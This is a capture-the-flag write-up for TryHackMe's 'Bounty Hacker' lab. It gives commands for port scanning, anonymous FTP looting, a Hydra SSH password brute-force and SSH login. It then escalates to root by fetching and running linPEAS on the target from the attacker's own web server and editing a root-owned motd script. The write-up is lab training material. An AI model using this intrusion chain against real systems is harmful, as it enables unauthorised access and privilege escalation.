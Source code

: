 # Bounty Hacker

## Disclaimer

This write-up is for a room located on **TryHackMe**. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the **Deploy** button.

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using a personal Linux machine, remember to use **OpenVPN**):

```
$ nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```
$ ftp ${MachineIP}
```

To log into the ftp server, we will be using the **anonymous** username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the **dir** directory. We notice there's a text file called **task.txt**. We can view this file directly in the ftp terminal using the following command:

```
$ get task.txt -
```

We now have our username!

After finding this **task.txt** file, we will notice there is another file called **locks.txt**, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```
$ get locks.txt
```

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on **port 22** (Check nmap scan output).

# Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that **locks.txt** file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```
$ hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

# Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```
$ ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```
$ sudo -l
```

After we run a simple command to see the available items in the directory, we see the **user.txt** file, which has our first flag!

Commands:

```
$ ls
$ cat user.txt
```

# Task 7

All that's left is to find the **root.txt** and complete the CTF!

The easiest way to accomplish this is by using **linPEAS** & a **python server**, so we're gonna start by getting a python server up and running with this command (Remember to do this in your root terminal, not as the user!):

```
$ sudo python3 -m http.server 80
```

Now to obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```
$ mkdir LinEnum
$ cd LinEnum
$ wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the user's terminal, and we now have it saved on our server, so let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

```
$ wget "http://${PrivateIP}/linpeas.sh"
```

To make our **linPEAS** script executable, we simply do this command (Notice the color change when we run this command):

```
$ chmod +x linpeas.sh
```

**Time to run the script!**

```
$ ./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called **/etc/update-motd.d/00-header** (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the **00-header** file we found is owned by root.

The easiest way to do this is by using **nano**:

```
$ nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through **ssh**, we will see the **root.txt**!

For this, we just need to add the following command at the very bottom of the open file:

```
cat /root/root.txt
```

**ctrl + x to save the file**

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the **root.txt** flag is located directly on the login terminal screen!

```
$ ssh ${user}@${MachineIP}
```

# Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called **Cowboy Bebop** (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).
